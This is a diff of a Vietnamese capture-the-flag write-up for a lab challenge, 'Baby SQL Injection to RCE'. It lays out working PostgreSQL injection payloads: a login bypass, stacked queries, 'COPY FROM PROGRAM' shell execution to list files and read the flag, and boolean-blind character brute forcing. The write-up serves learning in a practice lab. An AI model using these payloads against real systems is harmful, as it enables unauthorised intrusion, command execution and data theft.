

Before and after one commit to toanduneee/Training-KCSC, a Markdown page: Task-1/cookieArena.md, the part around the change. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/Task-1/cookieArena.md
+++ b/Task-1/cookieArena.md
@@ -77,4 +77,55 @@
 
 # 2. Baby SQL Injection to RCE
 
+## Đầu bài cho biết
+- Challenge đang chạy với PostgreSQL and PHP.
+- Flag File: /flagXXXX.txt
+
+## Hint
+- Sử dụng Stacked Query: là việc có thể sử dụng nhiều câu truy vấn bằng cách ngăn cách giữa các câu truy vấn bằng dấu ';'
+
+![image](https://github.com/user-attachments/assets/fca0de01-a3f1-463c-b405-30f503ab6a75)
+
+## Giải
+
+![image](https://github.com/user-attachments/assets/c6daf554-ff8e-498f-9ff7-d7bc60b5aee9)
+
+- `'OR 1=1 --` có thể khai thác được lỗ hổng SQL ở đây
+
+![image](https://github.com/user-attachments/assets/99efbf7f-791c-468a-8585-822bcb9dab15)
+
+- Mục tiêu của mình là dựa vào lỗ hổng này để tìm và mở được 1 file là `flagXXXX.txt` và lấy flag trong file đó
+- Quan sát thì thấy, khi nhập username hoặc pass thì nó chỉ có 2 trường hợp xảy ra:
+
+![image](https://github.com/user-attachments/assets/a03a8305-8809-4770-ad28-b7f77d5f245a)
+![image](https://github.com/user-attachments/assets/362232fe-47e6-4aa4-b134-707a9e32e0b9)
+
+- Ở đây khá chắc là Boolean SQli
+- Vì ở đây nó không cho ta biết được kết quả của chuỗi truy vấn nên ta không thể trực tiếp chèn các hàm như `pg_read_file()`, `cat` đêr trực tiếp đọc file này. Mặt khác, ta cũng không có tên của file flag để đọc 😃
+- Vậy là bây giờ cần:
+    + Tạo ra 1 bảng mới
+    + Lấy tên tất cả các file đưa vào bảng mới tạo
+    + Dùng cách dò đúng sai để biết được các tên file flag cần tìm
+- Tạo bảng mới: `admin'; CREATE TABLE abc(aaa text);--`
+    + ![image](https://github.com/user-attachments/assets/32ade69b-5395-4239-943b-c3e676a737ad)
+    + Gửi lại lần 2 để xác nhận bảng `abc` đã tồn tại
+- Đưa tất cả tên file vào trong bảng `abc` vừa tạo: `admin'; COPY abc FROM PROGRAM 'ls / -m';--` (Với `ls / -m`) để đưa tất cả tên file vào 1 dòng duy nhất
+- Brute force từng chữ: `admin' OR (SELECT SUBSTRING(aaa,1,1) FROM abc LIMIT 1) = 'a'--`
+    + Nếu ra `Welcome, admin...` thì là đúng
+    + Ra `Invalid username or password!` thì ký tự đó sai
+- Đưa vào Intruder:
+![image](https://github.com/user-attachments/assets/f72ef139-71ac-4093-a639-c2c6a3b3b337)
+
+- Vậy là ta kiếm được tên file là `flags3JDE.txt`
+- Tương tự với cách trên, ta tạo 1 bảng chứa nội dung của file `flags3JDE.txt`
+    + `'; CREATE TABLE efg(sss text);--`
+    + `'; COPY efg FROM PROGRAM 'cat flags3JDE.txt';--`
+    + Rồi tương tự dùng brute force để đọc lại bảng `efg`: `' OR (SELECT SUBSTRING(sss,1,1) FROM efg LIMIT 1) = 'a'--`
+
+
+
+
+
+
+
 # 3. Blind Logger Middleware
```
